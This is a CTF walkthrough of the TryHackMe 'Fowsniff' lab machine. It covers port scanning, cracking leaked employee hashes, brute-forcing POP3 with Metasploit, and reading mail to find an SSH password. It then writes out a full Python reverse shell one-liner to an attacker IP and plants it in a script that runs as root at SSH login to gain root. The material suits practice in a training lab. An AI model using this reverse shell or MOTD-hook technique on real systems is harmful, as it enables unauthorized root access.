






## MACHINE INFO

> **[Fownsiff CTF](https://tryhackme.com/r/room/ctf)** is an easy guided boot2root machine that leverages the use of a metasploit exploit to gain user ssh credentials and edit a bash script in the user called `cube.sh` to include a reverse shell payload that will give us a shell to fetch the flag.

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

## Enumeration
Nmap scan of the target
```shell
┌──(p0s3id0n㉿kali)-[~/thm]
└─$ nmap -sCV -p- -A 10.10.160.109 --min-rate=10000ms
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 23:17 BST
Nmap scan report for 10.10.160.109
Host is up (0.63s latency).
Not shown: 64580 filtered tcp ports (no-response), 951 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ listed AUTH=PLAINA0001 Pre-login post-login more LOGIN-REFERRALS OK have IDLE capabilities ENABLE SASL-IR IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.40 seconds

```

Open ports are: 22, 80,110,143
Found a website on port 80 saying that the service is temporarily down and employee information has been leaked. Customer information is safe but employees are encouraged to change their passwords.


Also found the official twitter account of the company.


There was a pastebin containing the passwords but the site was down so I used the github link on the challenge hint (https://github.com/berzerk0/Fowsniff)

The link contained a list of employee usernames and passwords. We are expected to crack the password hashes. I used (https://crackstation.net/) for this.
Dumped passwords and usernames:

Cracked passwords:


In order to use the metasploit exploit, we have to create 2 files, one for the cracked passwords and another for the usernames.
From the hint, we are guided to use the following metasploit package: auxiliary/scanner/pop3/pop3_login



Set the options and make sure to change the user and pass files to the users and pass files we set earlier. 

After running the exploit, we got user seina's password 


I then used a netcat listener to connect to the pop3 server using seina's credentials.

The user had 2 emails in her inbox: one from the system admin Stone and one from another user baksteen.

The output points towards use of ssh to login to the application using the temporary password and the sender's username.
Temp password:

```shell 
Password : S1ck3nBluff+secureshell
```
I first tried logging in using seina's username but that did not work. I then tried stone's username because he was the sender of the first email but that also did not work.
Then I looked at the second email and found the baksteen user as the sender. 
Sender's username:


What groups does the user belong to?
Using the id command we found the user belong to the users and baskteen group.


We are given a hint : cube.sh
So I used the following command to find the location of the flag.
```shell
find / -name "cube.sh"
```


Contents of the cube.sh file

We have write persmissions over the file


Can we edit it to include reverse shell?
I used the following online site to generate a pyton3 rev shell as instructed (https://www.revshells.com/)
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.73.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
I pasted the rev shell payload to the cube.sh file using the vi editor.

Now came the challenging bit, how do I run the file to get a connected shell via my netcat listener.
Then I saw the hint on the machine
Hint 
> 1. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!
> 2. Run the cube file to the motd.d file.

Step one:
Look at the file specified to confirm the cube.sh file is called there. 


Now that we have confirmed the cube.sh file can be called by the motd file we can move to the next part

Step 2:
> Hint : If you have not found out already, this file is run as root when a user connects to the machine using SSH.

This means that if we attempt to connect to the machine using the same user again via ssh, we will get root privileges.

So I set up my netcat listener, opened a new tab and logged in as baskteen using ssh.

Successful root!!



